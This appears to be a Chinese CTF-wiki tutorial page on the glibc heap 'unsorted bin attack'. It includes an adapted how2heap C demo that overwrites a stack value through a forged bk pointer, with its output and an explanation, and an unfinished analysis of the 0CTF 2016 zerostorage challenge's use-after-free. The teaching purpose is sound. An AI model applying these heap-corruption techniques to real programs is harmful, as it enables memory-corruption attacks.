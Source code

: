 Unsorted Bin Attack
===================

概述
----

Unsorted Bin Attack，顾名思义，该攻击与 Glibc 堆管理中的的 Unsorted Bin 的机制紧密相关。

Unsorted Bin Attack 被利用的前提是需要控制Unsorted Bin Chunk 的 bk 指针。

Unsorted Bin Attack 可以达到的效果是实现修改任意地址内存数值。

Unsorted Bin 回顾
-----------------

在介绍 Unsorted Bin 攻击前，可以先回顾一下 Unsorted Bin 的基本来源以及基本使用情况。

基本来源
~~~~~~~~

1. 当一个较大的 chunk 被分割成两半后，如果剩下的部分大于MINSIZE，就会被放到unsorted bin中。
2. 释放一个不属于 fast bin 的chunk，并且该 chunk 不和 top chunk紧邻时，该chunk会被首先放到 unsorted bin中。关于top chunk的解释，请参考下面的介绍。

基本使用情况
~~~~~~~~~~~~

1. Unsorted Bin 在使用的过程中，采用的遍历顺序是 FIFO 。
2. 在程序 malloc 时，如果在fastbin，以及small bin中找不到对应大小的chunk，就会尝试从 Unsorted Bin中寻找chunk。如果取出来的chunk大小刚好满足，就会直接返回给用户，否则就会把这些 chunk 分别插入到对应的
   bin 中。

原理
----

这里我以 shellfish 的 how2heap 仓库中的 `unsorted_bin_attack.c <https://github.com/shellphish/how2heap/blob/master/unsorted_bin_attack.c>`__ 为例进行介绍，这里我做一些简单的修改，如下

.. code:: c

    #include <stdio.h>
    #include <stdlib.h>

    int main() {
      fprintf(stderr, "This file demonstrates unsorted bin attack by write a large "
                      "unsigned long value into stack\n");
      fprintf(
          stderr,
          "In practice, unsorted bin attack is generally prepared for further "
          "attacks, such as rewriting the "
          "global variable global_max_fast in libc for further fastbin attack\n\n");

      unsigned long target_var = 0;
      fprintf(stderr,
              "Let's first look at the target we want to rewrite on stack:\n");
      fprintf(stderr, "%p: %ld\n\n", &target_var, target_var);

      unsigned long *p = malloc(400);
      fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",
              p);
      fprintf(stderr, "And allocate another normal chunk in order to avoid "
                      "consolidating the top chunk with"
                      "the first one during the free()\n\n");
      malloc(500);

      free(p);
      fprintf(stderr, "We free the first chunk now and it will be inserted in the "
                      "unsorted bin with its bk pointer "
                      "point to %p\n",
              (void *)p[1]);

      /*------------VULNERABILITY-----------*/

      p[1] = (unsigned long)(&target_var - 2);
      fprintf(stderr, "Now emulating a vulnerability that can overwrite the "
                      "victim->bk pointer\n");
      fprintf(stderr, "And we write it with the target address-16 (in 32-bits "
                      "machine, it should be target address-8):%p\n\n",
              (void *)p[1]);

      //------------------------------------

      malloc(400);
      fprintf(stderr, "Let's malloc again to get the chunk we just free. During "
                      "this time, target should has already been "
                      "rewrite:\n");
      fprintf(stderr, "%p: %p\n", &target_var, (void *)target_var);
    }

程序执行后的效果为

.. code:: shell

    ➜  unsorted_bin_attack git:(master) ✗ gcc unsorted_bin_attack.c -o unsorted_bin_attack   
    ➜  unsorted_bin_attack git:(master) ✗ ./unsorted_bin_attack
    This file demonstrates unsorted bin attack by write a large unsigned long value into stack
    In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

    Let's first look at the target we want to rewrite on stack:
    0x7ffe0d232518: 0

    Now, we allocate first normal chunk on the heap at: 0x1fce010
    And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()

    We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7f1c705ffb78
    Now emulating a vulnerability that can overwrite the victim->bk pointer
    And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7ffe0d232508

    Let's malloc again to get the chunk we just free. During this time, target should has already been rewrite:
    0x7ffe0d232518: 0x7f1c705ffb78

这里我们可以使用一个图来描述一下具体发生的流程以及背后的原理。

|image0|

**初始状态时**

unsorted bin的fd和bk均指向unsorted bin本身。

**执行free(p)**

由于释放的chunk大小不属于fast bin范围内，所以会首先放入到unsorted bin中。

**修改p[1]**

经过修改之后，原来在unsorted bin中的p的bk指针就会指向 target addr-16处伪造的chunk，即Target Value 处于伪造 chunk 的 fd 处。

**申请400大小的chunk**

此时，所申请的 chunk 处于 small bin所在的范围，其对应的bin中暂时没有chunk，所以会去unsorted bin中找，发现unsorted bin不空，于是把unsorted bin 中的最后一个chunk 拿出来。

.. code:: c

            while ((victim = unsorted_chunks(av)->bk) != unsorted_chunks(av)) {
                bck = victim->bk;
                if (__builtin_expect(chunksize_nomask(victim) <= 2 * SIZE_SZ, 0) ||
                    __builtin_expect(chunksize_nomask(victim) > av->system_mem, 0))
                    malloc_printerr(check_action, "malloc(): memory corruption",
                                    chunk2mem(victim), av);
                size = chunksize(victim);

                /*
                   If a small request, try to use last remainder if it is the
                   only chunk in unsorted bin.  This helps promote locality for
                   runs of consecutive small requests. This is the only
                   exception to best-fit, and applies only when there is
                   no exact fit for a small chunk.
                 */
                /* 显然，bck被修改，并不符合这里的要求*/
                if (in_smallbin_range(nb) && bck == unsorted_chunks(av) &&
                    victim == av->last_remainder &&
                    (unsigned long) (size) > (unsigned long) (nb + MINSIZE)) {
                    ....
                }

                /* remove from unsorted list */
                unsorted_chunks(av)->bk = bck;
                bck->fd                 = unsorted_chunks(av);

-  victim = unsorted_chunks(av)->bk=p
-  bck = victim->bk=p->bk = target addr-16
-  unsorted_chunks(av)->bk = bck=target addr-16
-  bck->fd = \*(target addr -16+16) = unsorted_chunks(av);

即修改target处的值为unsorted bin的链表头部0x7f1c705ffb78，也就是之前输出的信息。

.. code:: shell

    We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7f1c705ffb78
    Now emulating a vulnerability that can overwrite the victim->bk pointer
    And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7ffe0d232508

    Let's malloc again to get the chunk we just free. During this time, target should has already been rewrite:
    0x7ffe0d232518: 0x7f1c705ffb78

这里我们可以看到 unsorted bin attack 确实可以修改任意地址的值，但是所修改成的值却不受我们控制，唯一可以知道的是，这个值比较大。\ **而且，需要注意的是，**

这看起来似乎并没有什么用处，但是其实还是有点卵用的，比如说

-  我们通过修改循环的次数来使得，程序可以执行多次循环。
-  我们可以修改heap中的 global_max_fast 来使得更大的chunk可以被视为 fast bin，这样我们就可以去执行一些fast bin attack了。

例子1-zerostorage
-----------------

**注：待进一步完成。**

这里我们以 2016 年 0CTF 的zerostorage为例，进行介绍。

**这个题当时给了服务器的系统版本和内核版本，所以自己可以下一个一模一样的进行调试，这里我们就直接用自己的本地机器调试了。但是在目前的Ubuntu 16.04
中，由于进一步的随机化，导致libc加载的位置与程序模块加载的位置之间的相对偏移不再固定，所以 BrieflyX的策略就无法再次使用，似乎只能用 angelboy 的策略了。**

参考文章

-  http://brieflyx.me/2016/ctf-writeups/0ctf-2016-zerostorage/
-  https://github.com/HQ1995/Heap_Senior_Driver/tree/master/0ctf2016/zerostorage
-  https://github.com/scwuaptx/CTF/blob/master/2016-writeup/0ctf/zerostorage.py

安全性检查
~~~~~~~~~~

可以看出，该程序开启了所有的保护

.. code:: shell

    pwndbg> checksec 
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unsorted_bin_attack/zerostorage/zerostorage'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
        FORTIFY:  Enabled

基本功能分析
~~~~~~~~~~~~

程序管理在 bss 段的存储空间 storage ，具有插入，删除，合并，删除，查看，枚举，退出功能。这个storage的结构体如下

.. code:: text

    00000000 Storage         struc ; (sizeof=0x18, mappedto_7)
    00000000                                         ; XREF: .bss:storage_list/r
    00000000 use             dq ?
    00000008 size            dq ?
    00000010 xor_addr        dq ?
    00000018 Storage         ends

insert-1
^^^^^^^^

基本功能如下

1. 逐一查看 storage 数组，查找第一个未使用的元素，但是这个数组最大也就是32。
2. 读取storage 元素所需要存储内容的长度。

   -  如果长度不大于0，直接退出；
   -  否则如果申请的字节数小于128，那就设置为128；
   -  否则，如果申请的字节数不大于4096，那就设置为对应的数值；
   -  否则，设置为4096。

3. 使用 calloc 分配指定长度，注意 calloc 会初始化 chunk 为0。
4. 将 calloc 分配的内存地址与 bss 段的一个内存（初始时刻为一个随机数）进行抑或，得到一个新的内存地址。
5. 根据读取的storage的大小来读入内容。
6. 将对应的storage的大小以及存储内容的地址保存到对应的storage 元素中，并标记该元素处于可用状态。\ **但是，需要注意的是，这里记录的storage的大小是自己输入的大小！！！**
7. 递增 storage num的数量。

update-2
^^^^^^^^

1. 如果没有任何存储，就直接返回。
2. 读入要更新的storage元素的id，如果id大于31或者目前处于不处于使用状态，说明不对，直接返回。
3. 读取\ **更新后**\ storage 元素所需要存储内容的长度。

   -  如果长度不大于0，直接退出；
   -  否则如果申请的字节数小于128，那就设置为128；
   -  否则，如果申请的字节数不大于4096，那就设置为对应的数值；
   -  否则，设置为4096。

4. 根据 bss 段对应的随机数获取原先storage 存储内容的地址，
5. 如果更新后所需的长度不等于更新前的长度，就使用realloc为其重新分配内存。
6. 再次读取数据，同时更新storage 元素。

merge-3
^^^^^^^

1. 如果正在使用的元素不大于1个，那么无法合并，直接退出即可。
2. 判断storage是否已经满了，如果不满，找出空闲的那一块。
3. 分别读取merge_from的id以及merge_to的id号，并进行相应大小以及使用状态的检测。
4. 根据最初用户输入的大小来计算两个 merge 到一起后所需要的空间，\ **如果不大于128，那就不会申请新的空间**\ ，否则就申请相应大小的新的空间。
5. 依次将merge_to与merge_from的内容拷贝到相对应的位置。
6. **最后存储merge_from内容的内存地址被释放了，但并没有被置为NULL。同时，存放merge_to内容的内存地址并没有被释放，相应的storage的抑或后的地址只是被置为了NULL。**

**但是需要注意的是，，在merge的时候，并没有检测两个storage的ID是否相同。**

delete-4
^^^^^^^^

1. 如果没有存储任何元素，那就直接返回。
2. 读取指定要修改的storage的元素的id，如果 id 大于32，就直接返回。
3. 如果 storage 的对应元素并不在使用状态，那么也同时返回。
4. 之后就是将元素对应的字段分别设置为NULL，并且释放对应的内存。

view-5
^^^^^^

1. 如果没有存储任何元素，那就直接返回。
2. 读取指定要修改的storage的元素的id，如果 id 大于32，就直接返回。
3. 如果 storage 的对应元素并不在使用状态，那么也同时返回。
4. 输入对应的storage 的内容。

list-6
^^^^^^

1. 如果没有存储任何元素，那就直接返回。
2. 读取指定要修改的storage的元素的id，如果 id 大于32，就直接返回。
3. 遍历所有正在使用的storage，输入其对应的下标以及对应storage的大小。

漏洞确定
~~~~~~~~

通过这么简单的分析，我们可以 基本确定漏洞主要就是集中在insert操作与merge操作中，尤其是当我们merge两个较小size的storage时，会出现一些问题。

我们来具体分析一下，如果我们在insert过程中插入较小的size（比如8）的storage A，那么，当我们进行merge时，假设我们选择merge的两个storage
都为A，那么此时程序会直接把就会直接把A的内容再添加到A的原有内容的后面，然后接着就会把A对应的存储数据部分的内存free掉，但是这并没有什么作用，因为A存储内容的地址被赋给了另外一个storage，当再访问merge
后的 storage B部分的内容时，由于B的存储数据部分的地址其实就是A对应的存储数据的地址，所以打印的就是A的数据部分的内容。但是，我们之前刚刚把A对应的内存释放掉，而A由于不在fast
bin范围内，所以只会被放到unsorted bin中（而且此时只有一个），所以此时A的fd和bk都存放的是unsorted bin的一个基地址。

如果我们在merge之前曾经删除过一个storage C，那么在我们merge A后，A就会插在unsorted bin的双向链表的首部，所以其fd则是C对应的地址，bk则是unsorted bin的一个基地址。这样我们就可以直接泄露两个地址。

而且需要注意的是，我们还是可以去修改merge后的B的内容的，所以这其实就是个Use After Free。

利用流程
~~~~~~~~

。。。。

题目
----

.. |image0| image:: /pwn/heap/figure/unsorted_bin_attack_order.png
